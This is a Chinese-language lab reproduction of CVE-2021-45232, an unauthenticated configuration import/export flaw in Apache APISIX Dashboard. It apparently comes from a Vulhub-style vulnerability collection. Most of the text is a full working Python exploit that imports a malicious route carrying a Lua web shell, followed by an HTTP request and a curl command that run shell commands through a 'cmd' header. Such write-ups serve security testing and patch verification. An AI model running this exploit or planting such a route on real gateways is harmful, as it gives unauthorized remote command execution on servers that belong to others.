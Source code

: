 # Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232

Apache APISIX是一个动态、实时、高性能API网关，而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`，他们没有经过`droplet`框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。

参考链接：

- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 漏洞环境

Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：

```
docker-compose up -d
```

然后访问`http://your-ip:9000/`即可看到Apache APISIX Dashboard的登录页面。

![image-20221011092319611](./images/202210110923738.png)

## 漏洞复现

利用`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：

![image-20221011092714922](./images/202210110927989.png)

注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如[这个POC](https://github.com/wuppp/cve-2021-45232-exp)。

**apisix_dashboard_rce.py**

```python
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


eval_config = {
    "Counsumers": [],
    "Routes": [
        {
            "id": str(random.randint(100000000000000000, 1000000000000000000)),
            "create_time": 1640674554,
            "update_time": 1640677637,
            "uris": [
                "/rce"
            ],
            "name": "rce",
            "methods": [
                "GET",
                "POST",
                "PUT",
                "DELETE",
                "PATCH",
                "HEAD",
                "OPTIONS",
                "CONNECT",
                "TRACE"
            ],
            "script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
            "status": 1
        }
    ],
    "Services": [],
    "SSLs": [],
    "Upstreams": [],
    "Scripts": [],
    "GlobalPlugins": [],
    "PluginConfigs": []
}


def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=6))


def calc_crc(data):
    crc32 = zlib.crc32(data) & 0xffffffff
    return crc32.to_bytes(4, byteorder="big")


def export_data(url):
    r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
    return r.text[:-4]


def import_data(url, data):
    data = json.dumps(data).encode()
    crc32 = calc_crc(data)

    files = {"file": ("data", data + crc32, "text/data")}
    resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
    # print(resp.text)
    if resp.json().get("code", -1) == 0:
        return True
    else:
        return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("python " + sys.argv[0] + " http://127.0.0.1:9000")
        exit()
    
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]

    uri = random_str()
    eval_config["Routes"][0]["uris"] = [ "/" + uri]
    eval_config["Routes"][0]["name"] = uri

    if import_data(url, eval_config):
        print("attack success")
        print("uri is: " + "/" + uri)
    else:
        print("attack error")
```

![image-20221011105801642](./images/202210111058704.png)

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：

```
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```

![image-20221011105909716](./images/202210111059770.png)

也可以通过之前的POC实现命令执行：

```
curl http://your-ip:9080/LQsRF0 -H "cmd: id"
```

![image-20221011105809504](./images/202210111058564.png)

可见，我们在Header中添加的`CMD`头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。